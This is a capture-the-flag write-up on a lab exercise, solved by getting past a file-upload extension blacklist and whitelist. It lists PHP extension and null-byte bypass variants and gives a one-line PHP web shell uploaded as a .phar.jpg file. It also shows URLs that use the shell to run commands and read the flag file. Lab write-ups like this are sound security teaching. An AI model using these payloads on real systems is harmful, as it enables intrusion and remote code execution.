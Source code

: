 ## Challenge

The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read "/flag.txt" 

## Solution

I upload an image to the webpage, and send the request for this to the Burp intruder.

I use hte Simple list attack, and paste some php extensions from `payloadAllTheThings`:

```sh
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

In the result I see two kind of responses:
- Extension not allowed
- Only images are allowed

And `Only images are allowed` is shown on the `.phar` extension, telling me that this extension is being allowed, but its because its not an image that it's not being allowed.

Now I send a request with the extension `.phar.jpg` and on the body `<?php system($_REQUEST['cmd']); ?>`.

I see that I got RCE when I go to the link `http://83.136.249.46:44713/profile_images/cat.phar.jpg?cmd=whoami` and it shows me `www-data`, and I got the flag on this link by doing `path traversal` `http://83.136.249.46:44713/profile_images/cat.phar.jpg?cmd=cat%20../../../../flag.txt`.

The flag is `HTB{1_wh173l157_my53lf}`.

